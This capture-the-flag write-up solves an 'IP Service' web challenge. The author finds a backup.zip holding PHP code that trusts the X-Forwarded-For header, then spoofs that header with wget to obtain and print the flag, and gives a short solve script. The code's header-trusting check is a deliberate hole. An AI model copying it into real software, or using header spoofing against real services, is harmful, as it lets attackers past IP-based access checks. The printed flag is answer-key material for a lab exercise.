


# IP Service

Running `dirsearch`, we find the zip file named `backup.zip`.



Unzipping it, we find an `index.php` file that contains the follwing:

```php
<?php
    $ip = $_SERVER["HTTP_X_FORWARDED_FOR"];
    if (!$ip) {
        $ip = $_SERVER["REMOTE_ADDR"];
    }
?>
<!DOCTYPE html>
<html>
<head>
<title>IP Service</title>
<link href="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-eOJMYsd53ii+scO/bJGFsiCZc+5NDVN2yr8+0RDqr0Ql0h+rP48ckxlpbzKgwra6" crossorigin="anonymous">
<link href="/css/app.css" rel="stylesheet">
</head>
<body>
    <div class="text-center mt-5 pt-5">
        <h1>What's my IP?</h1>
        <h4 class="mt-5 mb-5">Your IP is: <strong><? echo $ip ?></strong></h4>
        <?php
        if ($ip == "137.137.137.137") {
            echo "<h4>Good job! Here's your flag: " . $_ENV["FLAG"] . "</h4>";
        }
        ?>
    </div>
<script src="https://cdn.jsdelivr.net/npm/bootstrap@5.0.0-beta3/dist/js/bootstrap.bundle.min.js" integrity="sha384-JEW9xMcG8R+pH31jmWH6WWP0WintQrMb4s7ZOdauHnUtxwoG2vI5DkLtS3qm9Ekf" crossorigin="anonymous"></script>
</body>
</html>

```

Thus, we need to set the `HTTP_X_FORWARDED_FOR` header to 137.137.137.137, which can be achieved by
running the following command: `wget --header="X-Forwarded-For:137.137.137.137" http://tpas.alunos.dcc.fc.up.pt:5017/`



As we can see, the flag is `TPAS{1337_1s_wa1t1ng_f0r_y0u}`.

In short, we can solve this challenge by running the following script:

```sh
#!/bin/sh

wget --header="X-Forwarded-For:137.137.137.137" http://tpas.alunos.dcc.fc.up.pt:5017/ > /dev/null 2>&1
grep -oE "TPAS{.*}" index.html
rm index.html
```
